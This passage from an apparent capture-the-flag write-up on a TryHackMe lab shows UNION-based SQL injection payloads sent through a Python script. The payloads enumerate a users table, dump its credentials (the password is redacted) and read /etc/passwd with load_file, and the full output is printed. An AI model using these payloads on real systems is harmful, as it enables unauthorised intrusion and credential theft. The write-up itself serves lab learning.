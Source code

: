 **The `users` table looks interesting:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,column_name FROM information_schema.columns WHERE table_name = "users"-- -
[*] Payload result:
uname
password
USER
CURRENT_CONNECTIONS
TOTAL_CONNECTIONS
```

**Let's extract all data from that table!**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,CONCAT(uname, ':', password) FROM users-- -
[*] Payload result:
tom:{Redacted}
```

Nothing useful.

**Hmm... Let's try to read a file into to the web server:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# python3 user_query.py
[*] Payload: " UNION ALL SELECT NULL,NULL,load_file("/etc/passwd")-- -
[*] Payload result:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
tom:x:1000:1001::/home/tom:/bin/bash
```
